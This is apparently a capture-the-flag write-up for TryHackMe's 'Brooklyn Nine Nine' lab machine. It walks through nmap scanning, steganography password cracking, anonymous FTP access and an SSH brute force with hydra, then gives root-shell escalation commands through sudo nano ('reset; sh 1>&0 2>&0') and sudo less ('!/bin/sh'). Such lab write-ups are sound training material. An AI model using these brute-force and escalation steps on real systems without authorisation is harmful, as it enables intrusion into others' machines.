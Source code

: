 # [THM-BrooklynNineNine](https://tryhackme.com/room/brooklynninenine) - Maxwell Caron
This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box.

Inital `nmap` scan:
```
$ nmap -T4 -A -p- -oN allports 10.10.241.180

# Nmap 7.91 scan initiated Mon May 24 20:38:51 2021 as: nmap -T4 -A -p- -oN allports 10.10.241.180
Warning: 10.10.241.180 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.241.180
Host is up (0.16s latency).
Not shown: 65450 closed ports, 82 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.5.204
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Now that we have our `nmap` scan, there are two ways to root this box, I will be showing both. 

## Path 1: Steganography

First we will look at the web server running on port 80.

### Web App

![web page](https://i.imgur.com/EOcEGSW.jpg)

We see a simple page with nothing but an image, after running a gobuster and nikto, we get nothing,so lets dig a little deeper.

![source code](https://i.imgur.com/Z5FfceX.png)

Looking through the source code of the web page we see a comment that referres to `steganography` as well as showing us the name of the background image so we can easily `wget` it onto our box.

### External

![wget](https://i.imgur.com/ZEfXwub.png)

Now that we have the background image on our box we can start to preform some simple steganography using, first I used `steghide` with an empty password.

![steghide](https://i.imgur.com/7emlCLu.png)

Hmm... it seems to be giving us an error let's try `stegcracker`

![stegcracker](https://i.imgur.com/aX8Dg8A.png)

Looks like `stegcracker` worked perfectly and inside of the hidden file we get `holt`'s password, knowing that `ssh` is open from our `nmap` scan we can attempt to login as `holt`.

### Internal

![ssh](https://i.imgur.com/QjD9oFV.png)

We're in! First we can get our `user.txt`. Now it is time to privesc.

![sudo](https://i.imgur.com/iRUyJvm.png)

First and foremost I always run `sudo -l`, and this time it paid off, we see that we can run `/bin/nano` (the text editor) as any user without needing to supply a password.

![gtfo](https://i.imgur.com/HhpBsJN.png)

Heading over to [GTFOBins](https://gtfobins.github.io/) we can search `nano` and click on the `sudo` tag because we have `sudo` privilages to that command.

![gtfobins2](https://i.imgur.com/f5FeugI.png)

After reading the quick description, we can use these chain of commands to "escalate or maintain privileged access."

```
holt@brookly_nine_nine:~$ sudo /bin/nano
```

Executing this command will bring us into this screen:

![nano](https://i.imgur.com/KwoV6pj.png)

This is just a blank text file, the next two steps are where the exploit begins.

First, pressing `CTRL + r` will give us a `File to insert [from ./]:` field but, looking down underneath the input field, we see that `CTRL + x` is `Execute Command` this sounds *good*, this is also the next step in the GTFOBins post. 

![exploit](https://i.imgur.com/Gux1R7Q.png)

Finally, inputting `reset; sh 1>&0 2>&0` into the `Command to execute` field we will be root!

![root](https://i.imgur.com/3B2q6dP.png)

## Path 2: FTP

### External

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.5.204
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
```

From our nmap scan we see that `FTP` is running on port 21 **AND** anonymous login is enabled.

![ftp](https://i.imgur.com/Ofb60XQ.png)

We see one file with the name `note_to_jake.txt` we can use the `get` command to download it onto our box. 

![note](https://i.imgur.com/xJF1wnN.png)

The note is from `amy` telling `jake` that his password is *too weak* the first time reading this I was a bit confused but than I realized that they we're hinting at us to use `rockyou.txt` a wordlist of weak & common passwords. Since there are no login pages on port `80` I assumed that we will be brute-forcing `jake`'s `ssh` login.

![hydra](https://i.imgur.com/JeQpPQj.png)

### Internal

Now that we are on the box we can do some manual enumeration ,once again I start off with `sudo -l`

![sudol](https://i.imgur.com/jcqawRf.png)

We see that we can run the `less` command as any user without supplying a password, lets go to [GTFOBins](https://gtfobins.github.io/) and search for `less`

![lessgtfo](https://i.imgur.com/ef0pMMd.png)

Scrolling down to the `sudo` tab and reading the quick description we see that we can "escalate or maintain privileged access" with the following commands.

```
jake@brookly_nine_nine:~$ sudo /usr/bin/less /etc/profile
```

Running this will use the `less` command as root to edit the `/etc/profile` 

![profile](https://i.imgur.com/SEX7qd4.png)

At the bottom, we see that we have reached the end of `/etc/profile` but we want to replace that line with `!/bin/sh` by simply typing it out.

![binsh](https://i.imgur.com/yw3jy7y.png)

![root](https://i.imgur.com/NZKVBwz.png)

We are now root! You could of also used the sudo privileges of `less` to read the contents of `/root/root.txt` but that's no fun :) 
